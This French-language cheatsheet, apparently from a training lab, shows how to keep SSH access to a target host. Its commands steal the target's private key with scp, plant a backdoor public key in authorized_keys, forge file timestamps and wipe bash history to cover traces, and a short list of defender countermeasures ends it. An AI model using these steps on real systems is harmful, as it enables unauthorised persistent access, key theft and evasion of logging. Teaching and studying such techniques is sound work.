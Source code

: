 # Cheatsheet - Persistance SSH avec Clés

## 🎯 Objectif
Maintenir l'accès à une machine cible en utilisant les clés SSH même après modification des identifiants.

## 📋 Prérequis
- Accès initial avec identifiants (username/password)
- Service SSH actif sur la cible
- Permissions de lecture sur le répertoire `.ssh`

## 🔍 Phase de Reconnaissance

### Vérifier la connectivité
```bash
ping -c 4 <target>
```

### Scanner les ports SSH
```bash
nmap <target>
nmap -p 22 <target>
```

## 🔐 Phase d'Accès Initial

### Connexion SSH standard
```bash
ssh <username>@<target>
# Entrer le mot de passe
```

### Énumération du répertoire home
```bash
ls -al ~/
ls -al ~/.ssh/
```

**Fichiers clés à rechercher :**
- `id_rsa` - Clé privée
- `id_rsa.pub` - Clé publique  
- `authorized_keys` - Clés autorisées
- `known_hosts` - Hosts connus

## 💾 Phase de Récupération des Clés

### Copier la clé privée vers l'attaquant
```bash
# Méthode 1: SCP
scp <username>@<target>:~/.ssh/id_rsa ./id_rsa_target

# Méthode 2: Affichage et copie manuelle
cat ~/.ssh/id_rsa
```

### Sécuriser la clé privée
```bash
chmod 400 id_rsa_target
```

## 🚀 Phase de Persistance

### Connexion avec clé privée
```bash
ssh -i id_rsa_target <username>@<target>
```

### Options SSH utiles
```bash
# Ignorer la vérification de l'host
ssh -i id_rsa_target -o StrictHostKeyChecking=no <username>@<target>

# Connexion silencieuse
ssh -i id_rsa_target -o LogLevel=QUIET <username>@<target>

# Spécifier le port
ssh -i id_rsa_target -p 2222 <username>@<target>
```

## 🛡️ Techniques Avancées de Persistance

### Créer une nouvelle paire de clés
```bash
# Sur la machine attaquante
ssh-keygen -t rsa -b 4096 -f ./backdoor_key

# Ajouter la clé publique aux authorized_keys de la cible
cat backdoor_key.pub >> ~/.ssh/authorized_keys
```

### Modifier les permissions
```bash
chmod 700 ~/.ssh/
chmod 600 ~/.ssh/authorized_keys
chmod 600 ~/.ssh/id_rsa
chmod 644 ~/.ssh/id_rsa.pub
```

### Masquer la persistance
```bash
# Modifier les timestamps
touch -r /etc/passwd ~/.ssh/authorized_keys

# Ajouter la clé dans un fichier existant
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
```

## 🧹 Nettoyage des Traces

### Supprimer les logs de connexion
```bash
# Vider les logs
> ~/.bash_history
history -c

# Supprimer des lignes spécifiques
sed -i '/ssh/d' ~/.bash_history
```

### Nettoyer les fichiers temporaires
```bash
rm -f ~/wait
rm -f /tmp/ssh-*
```

## ⚠️ Points d'Attention

### Vérifications de sécurité
- **Permissions des fichiers SSH** : Respecter les permissions strictes
- **SELinux/AppArmor** : Peut bloquer certaines opérations
- **Surveillance** : Les connexions SSH sont souvent loggées

### Erreurs communes
```bash
# ❌ Permissions incorrectes
chmod 777 id_rsa  # DANGER!

# ✅ Permissions correctes
chmod 400 id_rsa  # Lecture seule pour le propriétaire
```

## 🔧 Dépannage

### Problèmes de connexion
```bash
# Mode debug
ssh -v -i id_rsa_target <username>@<target>

# Vérifier les permissions
ls -la ~/.ssh/

# Tester la clé
ssh-keygen -l -f id_rsa_target
```

### Messages d'erreur courants
- `Permission denied (publickey)` → Vérifier permissions et chemin
- `Bad permissions` → Corriger avec chmod 400
- `Host key verification failed` → Utiliser -o StrictHostKeyChecking=no

## 📝 Exemple Complet

```bash
# 1. Reconnaissance
nmap -p 22 demo.ine.local

# 2. Accès initial
ssh student@demo.ine.local
# Password: password

# 3. Énumération
ls -al ~/.ssh/

# 4. Exfiltration de clé
exit
scp student@demo.ine.local:~/.ssh/id_rsa ./stolen_key

# 5. Sécurisation
chmod 400 stolen_key

# 6. Persistance
ssh -i stolen_key student@demo.ine.local

# 7. Récupération du flag
cat flag.txt
```

## 🛡️ Contre-mesures

### Pour les défenseurs
- Rotation régulière des clés SSH
- Surveillance des connexions par clés
- Désactiver l'authentification par mot de passe
- Utiliser des certificats SSH plutôt que des clés statiques
- Monitoring des modifications dans ~/.ssh/

---
*⚡ Cette technique exploite la persistance des clés SSH après modification des mots de passe.*